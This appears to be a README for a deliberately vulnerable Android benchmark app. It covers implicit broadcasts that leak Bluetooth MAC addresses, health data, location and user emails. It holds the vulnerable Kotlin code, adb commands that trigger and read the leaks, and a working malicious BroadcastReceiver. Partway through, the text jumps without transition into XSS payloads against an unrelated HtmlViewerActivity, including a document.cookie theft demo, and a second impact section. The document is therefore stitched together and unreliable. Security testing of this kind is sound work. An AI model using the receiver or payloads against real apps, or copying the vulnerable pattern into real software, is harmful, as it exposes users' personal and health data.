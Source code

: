 # oxo-android-ben54: Implicit Broadcast with Sensitive Bluetooth Information

## Vulnerability Overview

Implicit Broadcast with Sensitive Bluetooth Information occurs when Android applications send broadcast intents containing sensitive **Bluetooth device data** without restricting which applications can receive them. This vulnerability allows any app with a matching BroadcastReceiver to intercept and access **Bluetooth MAC addresses**, device names, and connection information.

## Attack Vector: Bluetooth Device Information Exposure

**Brief Explanation**: A fitness tracking app that broadcasts **Bluetooth device information** (MAC addresses, device names, battery levels, pairing status) through implicit intents that can be intercepted by any app with matching receivers, enabling device tracking and profiling attacks.

**Key Characteristics:**
- Broadcasts **Bluetooth device MAC addresses** and pairing information
- Exposes connected fitness device names and battery levels
- Leaks Bluetooth connection status and sync data  
- No permission requirements for malicious receivers to intercept Bluetooth data

**Vulnerable Code Pattern:**
```kotlin
// VULNERABLE: Broadcasting Bluetooth device information without restrictions
val deviceIntent = Intent("com.fittracker.DEVICE_CONNECTED")
deviceIntent.putExtra("device_address", "A4:B5:C6:D7:E8:F9")  // Bluetooth MAC
deviceIntent.putExtra("device_name", "FitBand Pro")
deviceIntent.putExtra("battery_level", 85)
deviceIntent.putExtra("connection_status", "Connected")
sendBroadcast(deviceIntent)  // VULNERABLE - Any app can receive Bluetooth data!

// Broadcasting Bluetooth sync data
deviceIntent.putExtra("device_name", bluetoothDevice.name)
deviceIntent.putExtra("user_profile", "John Doe, Premium Member")
sendBroadcast(deviceIntent)  // VULNERABLE - No permission required!
```

## Testing

### Step 1: Install and Launch FitTracker Pro
```bash
# Install the vulnerable fitness app
adb install -r /path/to/oxo-android-ben54/src/app/build/outputs/apk/debug/app-debug.apk

# Launch the app
adb shell am start -n co.ostorlab.myapplication/.MainActivity
```

### Step 2: Trigger Vulnerable Broadcasts
```bash
# Method 1: Simulate workout data broadcasts
adb shell am broadcast -a "com.fittracker.WORKOUT_STARTED" \
  --es user_id "user_12345" \
  --es workout_type "Running" \
  --el start_time 1724770000000 \
  --es user_profile "John Doe, Age: 28, Weight: 75kg"

adb shell am broadcast -a "com.fittracker.WORKOUT_UPDATE" \
  --es user_id "user_12345" \
  --ei heart_rate 145 \
  --ei calories_burned 320 \
  --ef distance_km 2.5 \
  --es workout_type "Running" \
  --el timestamp $(date +%s)000 \
  --ed location_lat 40.7128 \
  --ed location_lon -74.0060

# Method 2: Simulate device connection broadcasts  
adb shell am broadcast -a "com.fittracker.DEVICE_CONNECTED" \
  --es device_name "FitBand Pro" \
  --es device_address "A4:B5:C6:D7:E8:F9" \
  --es device_type "Fitness Tracker" \
  --ei battery_level 85 \
  --es user_profile "John Doe, Premium Member"

# Method 3: Simulate data synchronization broadcasts
adb shell am broadcast -a "com.fittracker.SYNC_COMPLETE" \
  --es user_id "user_12345" \
  --ei devices_synced 3 \
  --es user_email "john.doe@email.com" \
  --es account_type "Premium"
```

### Step 3: Verify Broadcast Interception
```bash
# Check broadcast history for intercepted data
adb shell dumpsys activity broadcasts | sed -n '/Historical broadcasts summary/,/^$/p' | grep -A 5 "com.fittracker"
```

### Expected Results:
```
Historical broadcasts summary [modern]:
#0: act=com.fittracker.SYNC_COMPLETE flg=0x400010 (has extras)
    extras: Bundle[{user_id=user_12345, devices_synced=3, user_email=john.doe@email.com, account_type=Premium}]

#1: act=com.fittracker.DEVICE_CONNECTED flg=0x400010 (has extras) 
    extras: Bundle[{device_name=FitBand Pro, device_address=A4:B5:C6:D7:E8:F9, device_type=Fitness Tracker, battery_level=85, user_profile=John Doe, Premium Member}]

#2: act=com.fittracker.WORKOUT_STARTED flg=0x400010 (has extras)
    extras: Bundle[{start_time=1724770000000, workout_type=Running, user_id=user_12345, user_profile=John Doe, Age: 28, Weight: 75kg}]
```

## Impact Assessment
- **Confidentiality**: High - Exposes sensitive user fitness data, device information, and personal profiles
- **Integrity**: Low - Data interception doesn't modify original information  
- **Availability**: Low - No direct impact on system availability
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Communication
- **CWE**: CWE-200 (Information Exposure), CWE-926 (Improper Export of Android Application Components)

## Malicious Receiver Example

An attacker app can intercept these broadcasts with:

```xml
<receiver android:name=".MaliciousReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.fittracker.WORKOUT_STARTED" />
        <action android:name="com.fittracker.WORKOUT_UPDATE" />
        <action android:name="com.fittracker.DEVICE_CONNECTED" />
        <action android:name="com.fittracker.SYNC_COMPLETE" />
    </intent-filter>
</receiver>
```

```java
public class MaliciousReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String action = intent.getAction();
        
        if ("com.fittracker.WORKOUT_UPDATE".equals(action)) {
            String userId = intent.getStringExtra("user_id");
            int heartRate = intent.getIntExtra("heart_rate", 0);
            double lat = intent.getDoubleExtra("location_lat", 0.0);
            double lon = intent.getDoubleExtra("location_lon", 0.0);
            // Attacker now has location and health data
        }
        
        if ("com.fittracker.DEVICE_CONNECTED".equals(action)) {
            String deviceAddress = intent.getStringExtra("device_address");
            String deviceName = intent.getStringExtra("device_name");
            // Attacker now has Bluetooth device information
        }
    }
}

# Image with onerror handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<img src='invalid' onerror='alert(\"Cookie: \" + document.cookie)' style='display:none'><p>Loading article...</p>"

# Hover-triggered attack
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<div onmouseover='alert(\"Data stolen on hover!\")' style='padding:20px; background:#f0f0f0'>Hover over this text to read more</div>"

# Input field with onchange handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<p>Enter your email for newsletter:</p><input type='email' onchange='alert(\"Email stolen: \" + this.value)' placeholder='your@email.com'>"

# Link with onclick handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<a href='#' onclick='alert(\"User clicked malicious link!\"); return false;'>Click here for exclusive content</a>"
```

**Difficulty**: Easy

## Impact Assessment

- **Confidentiality**: High - Can access sensitive user input and app data
- **Integrity**: High - Can manipulate user interactions and steal credentials
- **Availability**: Medium - Can disrupt normal app functionality
- **OWASP Mobile Top 10**: M7 - Client Code Quality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation)
